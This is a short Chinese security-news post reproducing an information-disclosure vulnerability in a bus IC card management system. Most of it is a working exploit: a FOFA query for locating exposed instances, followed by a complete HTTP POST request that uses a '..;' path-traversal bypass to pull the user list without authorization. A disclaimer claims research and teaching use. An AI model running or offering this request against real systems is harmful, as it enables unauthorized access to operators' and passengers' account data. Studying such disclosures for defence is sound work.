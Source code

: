 #  【安全圈】乡镇公交车系统信息泄露漏洞复现   
 安全圈   2024-10-15 19:00  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGylgOvEXHviaXu1fO2nLov9bZ055v7s8F6w1DD1I0bx2h3zaOx0Mibd5CngBwwj2nTeEbupw7xpBsx27Q/640?wx_fmt=png&from=appmsg "微信图片_20230927171534.png")  
  
  
**关键词**  
  
  
  
信息泄露  
  
  
## 公交IC卡系统是现代公交一卡通的核心，具有高科技和便捷性。它通过无现金支付提升乘客出行体验，实时收集数据优化运营管理。该系统的硬件基础包括读卡器和服务器，软件支持后台管理和数据分析，极大地提高了服务质量和管理效率。公交IC卡系统不仅为市民提供便捷服务，还推动了公共交通的信息化和智能化发展，为城市可持续交通做出贡献。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/aBHpjnrGyljhP5K1N0lvmFx8KzoW6LVPRaCIrbAiaJKWpexKDmf8Hmqnw9bctAPT969jsfHDBtqAvhZtaZaAONg/640?wx_fmt=jpeg "")  
  
FOFA  
  
```
FOFA：app="公交IC卡收单管理系统"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/aBHpjnrGyljhP5K1N0lvmFx8KzoW6LVPHbattlLSdHhF8os0OGBzHAJibtIL5ia2XZyM4HOQLGqEI843un7467XA/640?wx_fmt=jpeg "")  
  
漏洞复现  
```
POST /assets/..;/user HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://fofa.info/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=B4B300824AA8F075EAC1E702454B91BA
If-None-Match: W/"8977-1726725363928"
If-Modified-Since: Thu, 19 Sep 2024 05:56:03 GMT
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 197

_search=false&nd=1727275150716&rowCountPerPage=10&pageNo=1&sidx=USER_NAME&sord=asc&method=select&USER_NAME=&REAL_NAME=&ACCOUNT_EXPIRE_TIME=%E5%BF%BD%E7%95%A5&PASSWORD_EXPIRE_TIME=%E5%BF%BD%E7%95%A5
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/aBHpjnrGyljhP5K1N0lvmFx8KzoW6LVPOrTMEG6Xib54uHvOstXqSNMiaJg36BXmJQkNg9PeO8ziaS3udDyjOzq0Q/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGyljhP5K1N0lvmFx8KzoW6LVPcRzYpHxPOGyoiaIzqo3dFd4qiaSQicOzGlIj5yjhSsdicia8BicvBon4tz9g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGyljhP5K1N0lvmFx8KzoW6LVPr2m9L3TYXiawbjqPrDfDN1dhQg0mLZ8Y9RicklRicCvUyWmYnF4wfQqBQ/640?wx_fmt=png&from=appmsg "")  
  
  
免责声明文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任  
。  
  
来源：暗影网安实验室  
  
  
  
  
END  
  
  
阅读推荐  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGylhIRRy7YakD1vW3pJqde1NQ7pIUBOYAGjnqOxaCAlkWibiasCCka7gzEKBVG066crBWJrBoBZicTdj3A/640?wx_fmt=png "")  
[](http://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652065190&idx=1&sn=391aa2a998d2a2c0c8d94ca0b2ff2d42&chksm=f36e61e6c419e8f0745b8dc1b22a046764e890c98db00eaba68a4238593935ed97ed1e60e360&scene=21#wechat_redirect)  
[【安全圈】这就很有意思：谷歌似乎要让Android系统可以直接运行Linux软件](http://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652065207&idx=1&sn=2483fecda412b57897dd5eaeca451bb2&chksm=f36e61f7c419e8e10e4736ff24a84340716e928688e4c23e957ca00f9097420f4f638d6ed427&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/aBHpjnrGylhIRRy7YakD1vW3pJqde1NQl6P9CYibZKkVPzMwKOxMhrPOADqYv3tz0t7pMr5Vnic3Se9d0OsLt9rw/640?wx_fmt=jpeg "")  
[【安全圈】威胁升级！伊朗APT34组织针对阿联酋及海湾关键基础设施发动攻击](http://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652065207&idx=2&sn=5d2a6ee8cad3c1a93fd0258350d9c10e&chksm=f36e61f7c419e8e16198b5842f83c4e50a87fc6d753fd51721b9b6f94fe5110bdf922327062e&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/aBHpjnrGylhIRRy7YakD1vW3pJqde1NQrR7QBledFKCkumUyPAXEhwlOFhBE8xh8cgBr2ibNibUmWCV6H268vpEg/640?wx_fmt=jpeg "")  
[【安全圈】低成本恶意软件泛滥，能窃取多个浏览器存储的个人数据](http://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652065207&idx=3&sn=5d89471d200697e40710c3a07232eba7&chksm=f36e61f7c419e8e1fdafbc003a558fb38d81c13aa33f44924c31ae747de0cc821fab24d0b293&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/aBHpjnrGylhIRRy7YakD1vW3pJqde1NQdWLuKxqSOWhq1k8icH495NM4o8sicq4X6u97uwWdCzZlHEokWaC8xibmQ/640?wx_fmt=png "")  
[【安全圈】一种名为 perfctl 的 Linux 恶意软件在过去 3 - 4 年瞄准配置错误的 Linux 服务器](http://mp.weixin.qq.com/s?__biz=MzIzMzE4NDU1OQ==&mid=2652065207&idx=4&sn=461cec5353ae7f3583dde92f719b667f&chksm=f36e61f7c419e8e1775062eeab2eaf3ee8fcd24f2acde0f36dc0d98247d87a50bb28f0ff15bb&scene=21#wechat_redirect)  
  
  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCEft6M27yliapIdNjlcdMaZ4UR4XxnQprGlCg8NH2Hz5Oib5aPIOiaqUicDQ/640?wx_fmt=gif "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCEDQIyPYpjfp0XDaaKjeaU6YdFae1iagIvFmFb4djeiahnUy2jBnxkMbaw/640?wx_fmt=png "")  
  
**安全圈**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCEft6M27yliapIdNjlcdMaZ4UR4XxnQprGlCg8NH2Hz5Oib5aPIOiaqUicDQ/640?wx_fmt=gif "")  
  
  
←扫码关注我们  
  
**网罗圈内热点 专注网络安全**  
  
**实时资讯一手掌握！**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/aBHpjnrGylgeVsVlL5y1RPJfUdozNyCE3vpzhuku5s1qibibQjHnY68iciaIGB4zYw1Zbl05GQ3H4hadeLdBpQ9wEA/640?wx_fmt=gif "")  
  
**好看你就分享 有用就点个赞**  
  
**支持「****安全圈」就点个三连吧！**  
  
  
  
  
